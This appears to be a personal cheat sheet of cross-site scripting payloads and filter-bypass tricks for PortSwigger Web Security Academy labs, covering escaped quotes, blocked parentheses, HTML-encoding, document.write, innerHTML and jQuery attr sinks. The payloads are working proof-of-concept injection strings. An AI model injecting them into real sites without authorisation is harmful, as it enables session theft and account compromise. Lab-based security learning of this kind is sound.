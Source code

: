 Cross-site scripting cheat sheet:
```
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
```

## Standard XSS vector:
```
<img src=1 onerror=print()>
```

## General tip:
Sometimes these may work **ONLY** if you URL encode the payload in burp

## If `'` character is escaped then you can try:
```
\';alert(document.domain)//
```
Which will be converted to
```
\\';alert(document.domain)//
```

## if some characters are blocked (e.g. parenthesis):
```
onerror=alert;throw 33
```
Which will pass `33` to `alert`
```
https://YOUR-LAB-ID.web-security-academy.net/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

## if some characters are sanitized try html-encoding:
```
&apos;-alert(document.domain)-&apos;
```
e.g. in req.body:
website=http://bbb.com%3f%26apos%3b-alert(1)-%26apos%3b

## check for template literals ${} in js

## document.write (don't forget to close other html tags gracefully so that script is not brocken)
The document.write sink works with script elements, so you can use a simple payload, such as the one below: 
```
document.write('... <script>alert(document.domain)</script> ...');
```
e.g. if we have:
```
document.write('<option selected>'+store+'</option>'
```
then we can exploit xss:
```
storeId=any1</option><script>alert(33)</script><option>any2
```

## innerHtml might also be interesting:
```
element.innerHTML='... <img src=1 onerror=alert(document.domain)> ...'
```

## `attr` func in jQuery:
```
$(function() {
	$('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl'));
});
```
```
?returnUrl=javascript:alert(document.domain)
```
